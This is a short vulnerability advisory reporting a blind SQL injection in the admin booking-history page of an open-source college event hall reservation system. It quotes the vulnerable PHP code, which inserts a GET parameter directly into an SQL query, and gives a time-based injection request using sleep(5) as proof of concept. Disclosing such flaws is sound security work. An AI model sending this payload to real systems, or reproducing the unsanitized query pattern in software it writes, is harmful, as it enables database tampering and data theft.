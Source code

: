 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - Blind SQL Injection book_hitory.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/

## Affected Component
> /admin/book_history.php

## Code
```php
if(isset($_GET['del_id'])){
    $del_id = $_GET['del_id'];
    $sql = "UPDATE tbl_book_history SET status='Cancelled' WHERE book_id=$del_id";
    $result = $conn->query($sql);
}
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/book_history.php?del_id=sleep(5) HTTP/1.1
Host: [REDACTED]
```

## Screenshot

![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/307008fe-48d1-4e75-bfc7-2cc12a1f3563)
